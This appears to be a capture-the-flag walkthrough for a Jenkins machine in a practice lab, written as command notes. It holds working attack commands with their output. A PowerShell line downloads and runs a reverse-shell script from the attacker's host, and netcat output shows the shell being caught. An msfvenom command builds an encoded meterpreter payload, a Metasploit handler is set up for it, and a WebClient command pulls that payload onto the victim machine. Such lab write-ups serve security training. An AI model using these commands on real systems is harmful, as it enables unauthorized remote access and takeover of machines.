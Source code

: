 #1 create a new build

#2 chose the free project option
#3 Execute Windows Bash command
#4 start a simpleHTTPwebserver  [python3 -m http.server can also be used]
(kali㉿kali)-[~/…/practice/alfred/nishang/Shells]
└─$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
#5 enter the following commands:
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.59.68:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.59.68 -Port 9999
#6 set up listener:
(kali㉿kali)-[~/THM/practice/alfred]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
#7 save + 'Build" to execute code
#8 enjoy reverse shell:
(kali㉿kali)-[~/THM/practice/alfred]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.11.59.68] from (UNKNOWN) [10.10.131.14] 49223
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\reverse>









### Switching Shells - getting meterpreter shell using web_delivery ###
#1 create payload
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.3.38 LPORT=4433 -f exe -o reverse.exe

(kali㉿kali)-[~/THM/practice/alfred]
└─$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.59.68 LPORT=4433 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: reverse.exe
#2 run metasploit
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.59.68
LHOST => 10.11.59.68
msf6 exploit(multi/handler) > set LPORT 4433
LPORT => 4433
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started reverse TCP handler on 10.11.59.68:4433
#3 upload reverse.exe to the victim machine
PS C:\users\bruce\desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.59.68:80/reverse.exe','reverse.exe')"